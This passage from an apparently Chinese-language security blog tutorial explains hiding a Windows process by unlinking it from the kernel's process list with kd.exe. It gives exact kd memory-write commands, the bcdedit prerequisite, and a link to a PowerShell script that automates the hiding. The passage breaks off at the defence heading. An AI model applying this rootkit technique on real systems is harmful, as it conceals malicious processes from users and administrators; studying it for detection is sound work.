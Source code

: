 
### 7、进程自身的新Blink指向进程自身的双链表地址$thisProcessLinks

kd命令：

```
f $thisProcessLinks+0x008 L4 ($thisProcessLinks的第0字节) ($thisProcessLinks的第1字节) ($thisProcessLinks的第2字节) (thisProcessLinks的第3字节)
```

**注：**

```
+0x008代表Blink
```

完整命令：

```
kd -kl -y "srv*c:\symbols*http://msdl.microsoft.com/download/symbols" -c "0xffffe001`95236370+0x008 L4 0x70 0x63 0x23 0x95;Q"
```

如图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2016-12-15/2-8.png)

**注：**

```
7、8操作必须，对应双链表删除操作中的free(p),否则会蓝屏
```

### 8、测试

在tasklist和Process Explorer中，notepad.exe进程均被隐藏

## 0x04 powershell自动实现
---

以上操作可通过powershell脚本自动实现，这就是Hide-Me.ps1实现的功能

适用环境：

- Win7、8、10 64位操作系统

利用前提：

- 开启Local kernel debugging模式
- 管理员权限执行：bcdedit -debug on
- 重启后测试

由于PowerMemory做了脚本整合，所以Hide-Me.ps1还需要其他支持文件

我对其进行了少量修改，只提取隐藏进程的关键代码，最终整合到一个ps脚本中，地址如下：

https://github.com/3gstudent/Hide-Process-by-kd.exe

## 0x05 防御思路
---
